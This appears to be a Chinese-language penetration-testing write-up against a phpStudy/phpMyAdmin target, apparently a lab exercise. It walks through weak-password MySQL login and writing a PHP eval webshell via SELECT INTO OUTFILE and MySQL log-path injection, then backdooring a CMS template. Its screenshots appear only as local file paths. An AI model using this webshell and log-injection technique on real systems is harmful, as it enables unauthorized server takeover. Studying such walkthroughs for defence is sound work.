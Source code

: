 | php探针信息泄露      | 包括但不限于mysql                       |
| -------------------- | --------------------------------------- |
| 网站后台目录信息泄露 | /phpinfo.php: Possible information file |
|                      | /phpmyadmin/: phpMyAdmin                |
|                      | /phpMyAdmin/: phpMyAdmin                |

访问网站`80`端口服务

![image-20230307160623865](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230307160623865.png)

使用弱口令尝试MySQL登录：`root` 

![image-20230307160836179](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230307160836179.png)

得到数据库密码
访问后端登录界面：

phpmyadmin是管理数据库的web端，密码极有可能是数据库密码

<img src="C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230307161122103.png" alt="image-20230307161122103" style="zoom: 80%;" />

发现重要的信息，可能对渗透会有帮助`168a73655bfecefdb15b14984dd2ad60`

![image-20230307161625600](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230307161625600.png)

使用hashcat尝试破解，无果

尝试通过select写入一句话木马：

```
select "<?php eval($_POST['shell']);?>" into outfile 'C:/phpStudy/WWW/shell.php'
```

![image-20230307164748813](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230307164748813.png)

因为后台限制不能上传，想到通过修改日志路径，涉及两个全局变量的修改

![image-20230307165147951](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230307165147951.png)

内容：

```
select '<?php eval($_POST[shell]);?>' 
```

上传木马成功

尝试访问页面，antsowad连接

![image-20230307172126343](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230307172126343.png)

发现cms且没有被扫到试着访问：

![image-20230307172743160](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230307172743160.png)

写着密码，登录：

发现模板文件将木马注入，可以获取另一个shell

> ps:不止一个日志可以注入，slow_log，erro_log均可

## 2.3:后渗透



